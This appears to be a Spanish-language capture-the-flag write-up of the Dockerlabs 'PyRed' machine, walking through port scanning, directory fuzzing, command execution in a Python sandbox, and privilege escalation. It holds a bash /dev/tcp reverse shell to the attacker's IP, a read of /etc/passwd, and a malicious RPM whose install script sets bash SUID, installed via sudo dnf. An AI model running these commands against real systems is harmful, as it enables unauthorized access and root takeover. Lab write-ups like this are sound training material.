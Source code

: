 # Writeup de la Máquina PyRed de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![First nmap](_images/Screenshot_1.png)

Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. En este caso al ser solo un puerto no haria falta. 

```bash
extractPorts allPorts
```

![ExtractPorts](_images/Screenshot_2.png)

Una vez recojido el puerto le lanzo un escaneo para sacar la versión y el servicio que esta corriendo en el puerto 5000. 

```bash
sudo nmap -p5000 -sCV 172.17.0.2 -oN targeted
```
![Second nmap](_images/Screenshot_3.png)

![Second nmap v2](_images/Screenshot_4.png)

En este caso veo que es un servicio Werkzeug, este permite crear/hostear aplicaciones web con python. Así que decido utilizar whatweb para ver si me saca alguna otra tecnología.

```bash
whatweb http://172.17.0.2:5000
```

![Whatweb](_images/Screenshot_5.png)

El whatweb no reporta mucha información así que decido mirar la página en el navegador, en esta me encuentro lo que parece una página para practicar python.

![WebPage](_images/Screenshot_6.png)

Vista la página decido hacer fuzzing a la web para ver si tiene algún subdirectorio, esto lo hago con la herramienta gobuster.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2:5000 -x html,php,js
```

![Gobuster](_images/Screenshot_7.png)

Gobuster reporta una carpeta "/console", así que decido mirar a ver que contiene. Esta contiene una consola para ejecutar python pero pide un pin para utilizarla.

![Navegador /console](_images/Screenshot_8.png)

Al ver que /console esta protegida intento ver si puedo ejecutar comandos de sistema en el servidor en la sandbox para aprender python. En efecto si importo la biblioteca "os" me permite ejecutar comandos dentro del sistema.

![Check library os](_images/Screenshot_9.png)

![Navegador Webshell](_images/Screenshot_10.png)

Sabiendo esto miro el archivo "/etc/passwd" para recoger los usuarios del sistema. Dentro de este veo al usuario primpi.

![passwd 1](_images/Screenshot_11.png)

![passwd 2](_images/Screenshot_12.png)

Viendo que se puede ejecutar comandos en el servidor decido realizar una reverse shell a mi máquina al puerto 443.

```bash
nc -lvp 443
```
![nc](_images/Screenshot_13.png)

Este comando en la webshell urlencodeado, ya que sino no funciona.

```python
import os
cwd = os.system("bash -i >& /dev/tcp/192.168.13.142/443 0>&1")
```
![python revShell](_images/Screenshot_14.png)

Una vez ejecutada la reverse shell consigo acceso al servidor. Como el usuario primpi.

![acceso](_images/Screenshot_15.png)

Ya dentro ejecuto sudo -l para listar binarios que pueda ejecutar como superusuario. Me encuentro que puedo ejecutar como sudo el comando dnf, que para los sistemas fedora permiten instalar paquetes.

```bash
sudo -l
```
![sudo -l](_images/Screenshot_16.png)

Para realizar esta escalada de privilegios hay que crear un paquete .rpm malicioso en nuesto sistema. Primeramente hay que instalar unas dependencias para crearlo.

Para instalar las dependencias voy a la carpeta /opt y nos clonaremos el siguiente repositorio.

```bash
cd /opt
sudo git clone https://github.com/jordansissel/fpm.git
```
![dependencias 1](_images/Screenshot_17.png)

Una vez teniendo esto compruebo si tenemos instalado rpm en nuestro sistema.

```bash
sudo apt install rpm
```

![dependencias 2](_images/Screenshot_18.png)

Teniendo las dependencias instaladas creo el paquete .rpm.

```bash
TF=$(mktemp -d)
echo 'chmod 4755 /usr/bin/bash' > $TF/x2.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x2.sh $TF
```
![Creación RPM](_images/Screenshot_20.png)

Una vez tengo el paquete creo con python un servidor web para poder descargar este paquete en la máquina víctima. Y este lo descargo en la víctima con la herramienta curl.

```bash
python -m http.server 80
```

```bash
curl -O http://192.168.13.130/x-1.0-1.noarch.rpm
```
![Descarga del paquete en la víctima](_images/Screenshot_21.png)

Ya descargado instalo el paquete con dnf utilizandolo con sudo.

```bash
sudo dnf install -y x-1.0-1.noarch.rpm
```
![Instalación paquete rpm](_images/Screenshot_22.png)

Por último ya instalado el paquete ejecuto la bash con privilegios para escalar y convertirme en root.

```bash
/bin/bash -p
```
![Escalada de privilegios](_images/Screenshot_23.png)
